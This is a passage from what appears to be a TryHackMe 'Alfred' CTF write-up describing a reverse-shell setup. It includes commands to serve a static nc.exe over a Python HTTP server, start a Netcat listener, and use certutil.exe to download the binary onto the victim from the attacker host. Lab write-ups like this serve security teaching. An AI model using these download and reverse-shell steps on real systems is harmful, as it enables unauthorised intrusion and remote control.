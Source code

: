 <br>I will use [**Netcat**](https://www.ionos.com/digitalguide/server/tools/netcat/) in this manner. It is required to have Netcat downloaded in both the attacker and the
victim machine.
- Download static [**nc.exe**](https://github.com/andrew-d/static-binaries/blob/0be803093b7d4b627b4d4eddd732e54ac4184b67/binaries/windows/x86/ncat.exe) binary for to run it in the victim machine 
- Start a Python3 server in the directory that includes the Netcat static binary file.
<br>Run:
{% highlight shell%}
sudo python3 -m http.server 80
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/10.png)
- Start a Netcat listener in the attacker machine.
<br>Run:
{% highlight shell%}
nc -nvlp {ANY FREE PORT}
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/11.png)
- Download the static binary to the victim machine from the Python web server and run it.
{% highlight powershell%}
certutil.exe -urlcache -split -f http://{THM IP}:80/nc.exe
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/12.png)
- Click **Build** button on the project page.